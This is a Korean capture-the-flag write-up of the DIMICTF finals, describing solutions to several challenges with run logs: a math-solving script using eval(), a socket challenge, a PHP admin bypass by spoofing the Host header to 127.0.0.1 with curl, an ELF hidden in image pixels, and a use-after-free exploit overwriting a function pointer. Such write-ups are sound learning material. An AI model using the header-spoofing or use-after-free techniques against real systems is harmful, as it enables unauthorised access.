



# DIMICTF 본선 - 프라푸치노 (1st, 1609)


2017.07.20, 한국디지털미디어고등학교에서

## guess_returns
7바이트짜리 데이터 `2ykuozF`가 주어지는데, 문제에 bit 어쩌고하고 나오길래 바로 [bit.ly](http://bit.ly)를 연상해서 무려 1빠로 풀었다.

[http://bit.ly/2LfMUys](http://bit.ly/2LfMUys)

누가 볼까 조심조심 인증만 하고 Flag 안 적어놨는데 대회 끝나고 서버 꺼져버려서 정말 슬펐다.

`dimi{???}`

## MAAAATH



pwntools로 슥삭했다. Question에서 수학식만 파싱해서 `eval()`로 계산 결과를 구한 뒤 보내는 방식으로 풀었다.

```
 junhoyeo@Macbookui-MBP  ~/Desktop  python exploit-math.py
[+] Opening connection to 121.170.91.11 on port 9999: Done
================== 01 STAGE ==================

[*] Question> 5-2 = ?
[*] PROBLEM : 5-2
[*] ANSWER : 3
[*] Correct!


================== 02 STAGE ==================

[*] Question> 3+1 = ?
[*] PROBLEM : 3+1
[*] ANSWER : 4
[*] Correct!


================== 03 STAGE ==================

[*] Question> 10%7 = ?
[*] PROBLEM : 10%7
[*] ANSWER : 3
[*] Correct!


================== 04 STAGE ==================

[*] Question> 8%1 = ?
[*] PROBLEM : 8%1
[*] ANSWER : 0
[*] Correct!


================== 05 STAGE ==================

[*] Question> 6%8 = ?
[*] PROBLEM : 6%8
[*] ANSWER : 6
[*] Correct!


================== 06 STAGE ==================

[*] Question> 43*21-21 = ?
[*] PROBLEM : 43*21-21
[*] ANSWER : 882
[*] Correct!


================== 07 STAGE ==================

[*] Question> 100+87%56 = ?
[*] PROBLEM : 100+87%56
[*] ANSWER : 131
[*] Correct!


================== 08 STAGE ==================

[*] Question> 100*38%29 = ?
[*] PROBLEM : 100*38%29
[*] ANSWER : 1
[*] Correct!


================== 09 STAGE ==================

[*] Question> 25*55-60 = ?
[*] PROBLEM : 25*55-60
[*] ANSWER : 1315
[*] Correct!


================== 10 STAGE ==================

[*] Question> 69+43+44 = ?
[*] PROBLEM : 69+43+44
[*] ANSWER : 156
[*] Correct!


================== 11 STAGE ==================

[*] Question> 684*516*608+559 = ?
[*] PROBLEM : 684*516*608+559
[*] ANSWER : 214590511
[*] Correct!


================== 12 STAGE ==================

[*] Question> 72+4*708-715 = ?
[*] PROBLEM : 72+4*708-715
[*] ANSWER : 2189
[*] Correct!


================== 13 STAGE ==================

[*] Question> 210-79%738-926 = ?
[*] PROBLEM : 210-79%738-926
[*] ANSWER : -795
[*] Correct!


================== 14 STAGE ==================

[*] Question> 242+139%24+818 = ?
[*] PROBLEM : 242+139%24+818
[*] ANSWER : 1079
[*] Correct!


================== 15 STAGE ==================

[*] Question> 138-743+797-923 = ?
[*] PROBLEM : 138-743+797-923
[*] ANSWER : -731
[*] Correct!


================== 16 STAGE ==================

[*] Question> 6754+5866%570-2547-1092 = ?
[*] PROBLEM : 6754+5866%570-2547-1092
[*] ANSWER : 3281
[*] Correct!


================== 17 STAGE ==================

[*] Question> 79+8643%2821%5482%2123 = ?
[*] PROBLEM : 79+8643%2821%5482%2123
[*] ANSWER : 259
[*] Correct!


================== 18 STAGE ==================

[*] Question> 8561-9901-9408%4186+9553 = ?
[*] PROBLEM : 8561-9901-9408%4186+9553
[*] ANSWER : 7177
[*] Correct!


================== 19 STAGE ==================

[*] Question> 8296-8250-9136-4867+7523 = ?
[*] PROBLEM : 8296-8250-9136-4867+7523
[*] ANSWER : -6434
[*] Correct!


================== 20 STAGE ==================

[*] Question> 8980%2090+4157+1229-2152 = ?
[*] PROBLEM : 8980%2090+4157+1229-2152
[*] ANSWER : 3854
[*] Correct!


Congratulation! The flag is dimi{Yeah, you are good at math!:)}

Traceback (most recent call last):
  File "exploit-math.py", line 9, in <module>
    prob = cn.recvline()
  File "/usr/local/lib/python2.7/site-packages/pwnlib/tubes/tube.py", line 426, in recvline
    return self.recvuntil(self.newline, drop = not keepends, timeout = timeout)
  File "/usr/local/lib/python2.7/site-packages/pwnlib/tubes/tube.py", line 305, in recvuntil
    res = self.recv(timeout=self.timeout)
  File "/usr/local/lib/python2.7/site-packages/pwnlib/tubes/tube.py", line 78, in recv
    return self._recv(numb, timeout) or ''
  File "/usr/local/lib/python2.7/site-packages/pwnlib/tubes/tube.py", line 156, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/usr/local/lib/python2.7/site-packages/pwnlib/tubes/tube.py", line 126, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/usr/local/lib/python2.7/site-packages/pwnlib/tubes/sock.py", line 54, in recv_raw
    raise EOFError
EOFError
[*] Closed connection to 121.170.91.11 port 9999
```

대회 때는 위처럼 대충 짜서 굴렸는데, 익스플로잇을 조금 정돈하고 싶어져서 다시 작성했다(아직도 서버가 열려 있었다).

```
 junhoyeo@Macbookui-MacBook-Pro  ~/Documents/WriteUps/CTF-2018/DIMICTF-finals   master ●  python2 exploit-math-fixed.py
[+] Opening connection to 121.170.91.11 on port 9999: Done

      ___           ___           ___           ___           ___           ___           ___
     /\__\         /\  \         /\  \         /\  \         /\  \         /\  \         /\__\
    /::|  |       /::\  \       /::\  \       /::\  \       /::\  \        \:\  \       /:/  /
   /:|:|  |      /:/\:\  \     /:/\:\  \     /:/\:\  \     /:/\:\  \        \:\  \     /:/__/
  /:/|:|__|__   /::\~\:\  \   /::\~\:\  \   /::\~\:\  \   /::\~\:\  \       /::\  \   /::\  \ ___
 /:/ |::::\__\ /:/\:\ \:\__\ /:/\:\ \:\__\ /:/\:\ \:\__\ /:/\:\ \:\__\     /:/\:\__\ /:/\:\  /\__ 
 \/__/~~/:/  / \/__\:\/:/  / \/__\:\/:/  / \/__\:\/:/  / \/__\:\/:/  /    /:/  \/__/ \/__\:\/:/  /
       /:/  /       \::/  /       \::/  /       \::/  /       \::/  /    /:/  /           \::/  /
      /:/  /        /:/  /        /:/  /        /:/  /        /:/  /     \/__/            /:/  /
     /:/  /        /:/  /        /:/  /        /:/  /        /:/  /                      /:/  /
     \/__/         \/__/         \/__/         \/__/         \/__/                       \/__/


Welcome to MATH class. There are a total of 20 stages. 5 second time limit


================== 01 STAGE ==================
Question>
[*] PROBLEM :  6+4
[+] ANSWER : 10
================== 02 STAGE ==================
Question>
[*] PROBLEM :  2+4
[+] ANSWER : 6
================== 03 STAGE ==================
Question>
[*] PROBLEM :  6*2
[+] ANSWER : 12
================== 04 STAGE ==================
Question>
[*] PROBLEM :  3%9
[+] ANSWER : 3
================== 05 STAGE ==================
Question>
[*] PROBLEM :  9*5
[+] ANSWER : 45
================== 06 STAGE ==================
Question>
[*] PROBLEM :  92*39-6
[+] ANSWER : 3582
================== 07 STAGE ==================
Question>
[*] PROBLEM :  2%29+96
[+] ANSWER : 98
================== 08 STAGE ==================
Question>
[*] PROBLEM :  88*61-74
[+] ANSWER : 5294
================== 09 STAGE ==================
Question>
[*] PROBLEM :  33*40-41
[+] ANSWER : 1279
================== 10 STAGE ==================
Question>
[*] PROBLEM :  17*72+98
[+] ANSWER : 1322
================== 11 STAGE ==================
Question>
[*] PROBLEM :  511%944-335-589
[+] ANSWER : -413
================== 12 STAGE ==================
Question>
[*] PROBLEM :  627+584%594%656
[+] ANSWER : 1211
================== 13 STAGE ==================
Question>
[*] PROBLEM :  978*845+320+495
[+] ANSWER : 827225
================== 14 STAGE ==================
Question>
[*] PROBLEM :  256+36*883+442
[+] ANSWER : 32486
================== 15 STAGE ==================
Question>
[*] PROBLEM :  133-43+510-207
[+] ANSWER : 393
================== 16 STAGE ==================
Question>
[*] PROBLEM :  6032*4568*3569%1067-7687
[+] ANSWER : -6659
================== 17 STAGE ==================
Question>
[*] PROBLEM :  970*554+2379*2554+9993
[+] ANSWER : 6623339
================== 18 STAGE ==================
Question>
[*] PROBLEM :  7511%3181+831-6501+6892
[+] ANSWER : 2371
================== 19 STAGE ==================
Question>
[*] PROBLEM :  2020-1116%5388-2344*701
[+] ANSWER : -1642240
================== 20 STAGE ==================
Question>
[*] PROBLEM :  4107*1068%9206%7553-619
[+] ANSWER : 3601
[+] Congratulation! The flag is dimi{Yeah, you are good at math!:)}
[*] Closed connection to 121.170.91.11 port 9999
```

익스플로잇이 5줄 정도 짧아졌고 성능(실행시간)과 가독성이 더 좋아졌다.

`dimi{Yeah, you are good at math!:)}`

## Waiting



IDA로 살펴보면 `121.170.91.11`의 `7788` 포트에서 값을 읽음을 알 수 있다. 

```
>>> import requests
>>> requests.get('http://121.170.91.11:7788').text
Traceback (most recent call last):
  File "/usr/local/lib/python3.7/site-packages/urllib3/connectionpool.py", line 600, in urlopen
    chunked=chunked)
  File "/usr/local/lib/python3.7/site-packages/urllib3/connectionpool.py", line 384, in _make_request
    six.raise_from(e, None)
  File "<string>", line 2, in raise_from
  File "/usr/local/lib/python3.7/site-packages/urllib3/connectionpool.py", line 380, in _make_request
    httplib_response = conn.getresponse()
  File "/usr/local/Cellar/python/3.7.0/Frameworks/Python.framework/Versions/3.7/lib/python3.7/http/client.py", line 1321, in getresponse
    response.begin()
  File "/usr/local/Cellar/python/3.7.0/Frameworks/Python.framework/Versions/3.7/lib/python3.7/http/client.py", line 296, inbegin
    version, status, reason = self._read_status()
  File "/usr/local/Cellar/python/3.7.0/Frameworks/Python.framework/Versions/3.7/lib/python3.7/http/client.py", line 278, in_read_status
    raise BadStatusLine(line)
http.client.BadStatusLine: Wait you send wrong day!
```

그냥 파싱을 하니까 시간 값을 잘못 전달했다고 나오길래 다시 보니 소켓 통신을 하고 있었다. 

```python
import socket

def run():
  with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect(('121.170.91.11', 7788))
    line = input(':')
    s.sendall(line.encode())
    resp = s.recv(1024)
    print(f'>{resp.decode()}')

if __name__ == '__main__':
  run()
```

파이썬 소켓 통신에 대해서 구글링하다가 나온 위의 예제 코드를 이용해서 아무 값이나 보냈더니 플래그를 줬다.

```
 ✘ junhoyeo@Macbookui-MBP  ~/Desktop  python3 exploit-waiting.py
:1243567
>The Flag is dimi{the_time_is_running_out}
```

대회가 끝나고 22일 다시 테스트를 해서 21 이상의 값을 보내야 플래그를 준다는 것을 알아냈다.

```
 junhoyeo@Macbookui-MacBook-Pro  ~/Desktop/DIMICTF-quals  python3 exploit-waiting.py
:20.9
>Wait you send wrong day!
 junhoyeo@Macbookui-MacBook-Pro  ~/Desktop/DIMICTF-quals  python3 exploit-waiting.py
:21
>The Flag is dimi{the_time_is_running_out}
```

역시 서버가 안 닫혔길래 빠르게 익스플로잇을 작성해서 실행했다.

```
 junhoyeo@Macbookui-MacBook-Pro  ~/Documents/WriteUps/CTF-2018/DIMICTF-finals   master ●  python3 exploit-waiting.py
The Flag is dimi{the_time_is_running_out}
```

IP와 포트를 일찍 찾았는데도 불구하고 소켓 통신에 대한 지식이 없어서 다른 분들보다 비교적 늦게 풀게 된 것 같아서 조금 아쉽다.

`dimi{the_time_is_running_out}`

## DIMI STORAGE

- 누구나 password를 설정해서 파일을 업로드할 수 있음
- 숨겨져 있는 어드민 페이지에 가면 storage의 파일 리스트를 볼 수 있음
- FLAG의 게시물 id는 00000000000000000000000000000000

```php
if($_GET['password'] != $password) {
  if($_SERVER['HTTP_HOST'] != "127.0.0.1") {
    echo "FAIL - Password Error";
    exit(-1);
  }
}
```

- 힌트로 공개된 소스코드 중 `download.php`에는 위와 같은 부분이 있는데, 패스워드가 틀려도 로컬호스트라면 파일을 그냥 열어준다.

```js
if("<?php echo $_SERVER['HTTP_HOST']; ?>" === "127.0.0.1") {
  $("#admin").show();
}
```

- 쉽게 bypass할 수 있었지만 `index.php`에서도 로컬호스트로 들어오면 어드민 페이지 링크를 show해주는 코드가 있었다.

`$_SERVER[HTTP-HOST]`를 변조하면 되겠다고 생각하고(지금은 기억나지 않는 문제 내용에서도 관리자로 접속하라는 것을 계속 암시하는 것 같았음) 구글링과 curl을 사용해서 풀었음
```
 junhoyeo@Macbookui-MBP  ~/Desktop  curl --verbose --header 'Host: 127.0.0.1' 'http://121.170.91.14/4e818133cd4413425429613b06a55453/download.php?id=00000000000000000000000000000000' 
*   Trying 121.170.91.14...
* TCP_NODELAY set
* Connected to 121.170.91.14 (121.170.91.14) port 80 (#0)
> GET /4e818133cd4413425429613b06a55453/download.php?id=00000000000000000000000000000000 HTTP/1.1
> Host: 127.0.0.1
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Fri, 20 Jul 2018 03:33:44 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Content-Transfer-Encoding: Binary
< Content-disposition: attachment; filename="00000000000000000000000000000000"
< Content-Length: 19
< Content-Type: application/octet-stream
< 
dimi{iamlocalhost}
* Connection #0 to host 121.170.91.14 left intact
```

`dimi{iamlocalhost}`

## image
힌트가 `each pixel`이였다. 각각의 픽셀에 대해서 RGB값 구해서 순서대로 이어붙여서 바이너리 파일로 저장하면 ELF 파일이 나온다. 리눅스 시스템에서 실행하면 바로 Flag가 나온다.

```
root@goorm:/workspace/JunhoYeo# chmod +x prob_data
root@goorm:/workspace/JunhoYeo# file prob_data
prob_data: ELF 64-bit LSB  executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=399d90455fbe2b7c214a7fcfc5eb6058a6961e69, not stripped
root@goorm:/workspace/JunhoYeo# ./prob_data
dimi{ELF_!N_1M4G3}   
```

처음에는 ELF 파일을 뜯어서 플래그를 찾으려고 했는데 구조가 매우 복잡해서 당황했다. 맥에서는 실행이 안 되고, 마침 리눅스 VM도 없어서 그냥 구름 IDE에 올리고 실행했다.

`dimi{ELF_!N_1M4G3}`

# After Solved

## uaf
대회가 끝나고 택시에서 현이가 설명해줘서 풀었다. 당일 11시 50분인데도 서버가 살아있었다.



`ptr = malloc(0x10);`에서 16byte만큼 함수 포인터 `ptr`에 힙 공간을 할당해주고 사용한 후 `free(ptr);`에서 풀어준다. 

게임에서 이겨서 이름을 입력받게 되면, `v7 = malloc(0x10);`에서 이름을 저장하기 위해서 다시 16byte짜리 공간을 할당한다. 

이때 `malloc()`이 할당하는 공간의 사이즈가 `free()`된 영역의 사이즈와 같으므로 처음에 사용했던 영역을 다시 할당하게 된다. 즉, `ptr`이 있었던 공간에 사용자가 입력한 이름이 들어가게 되는 것이다.

이후 다시 `fight`를 선택하면 검증 없이 함수 포인터 `ptr`의 주소로 실행 흐름이 바뀌게 되는데, 사실 `ptr`이 있었던 공간에는 사용자의 입력이 있으므로 만약 이름 대신 실행하려는 함수 주소를 넣으면 해당 함수가 실행되는 것이다.

바이너리에는 플래그 파일의 내용을 출력하는 `binsh()` 함수가 있으니까 해당 함수의 주소를 찾아서 넣으면 플래그가 나오게 된다.

### remote
```
  junhoyeo@Macbookui-MacBook-Pro  ~/Desktop/DIMICTF-quals  python2 exploit-uaf.py
[*] '/Users/junhoyeo/Desktop/DIMICTF-quals/uaf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] binsh : 0x8048636
[+] Opening connection to 121.170.91.13 on port 10101: Done
1. Fight
2. Setting
3. Exit
>>>
[*] 2
Damages:
[*] 100
1. Fight
2. Setting
3. Exit
>>>
[*] 1
1. Hit
2. Run Away
>>>
[*] 1
???: Oh... So pain..
???: 99999900
Me: 100
You Win !
What your name?
[*] 6\x86\x0
OK BYE ~ 6\x86\x0

. Fight
2. Setting
3. Exit
>>>
[*] 1
dimi{don7_u$e_4ft3r_fr3e_p1e@s3}

[*] FLAG : dimi{don7_u$e_4ft3r_fr3e_p1e@s3}
[*] Closed connection to 121.170.91.13 port 10101
```

`dimi{don7_u$e_4ft3r_fr3e_p1e@s3}`

### local
뒤늦게 Ubuntu VM을 설치한 뒤에 로컬 익스플로잇도 만들었다. 진짜 외주비 들어오면 페러렐즈는 꼭 사야겠다.
```
junhoyeo@ubuntu:~/pwn$ python exploit-uaf-local.py
[*] '/home/junhoyeo/pwn/uaf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] binsh_addr : 0x8048636
[+] Starting local process './uaf': pid 12381
[*] setting
[*] damage : 100
[*] fight
[*] hit
[*] name : 6\x86\x0
[*] fight
/bin/cat: /home/uaf/flag
[*] Stopped process './uaf' (pid 12381)
```
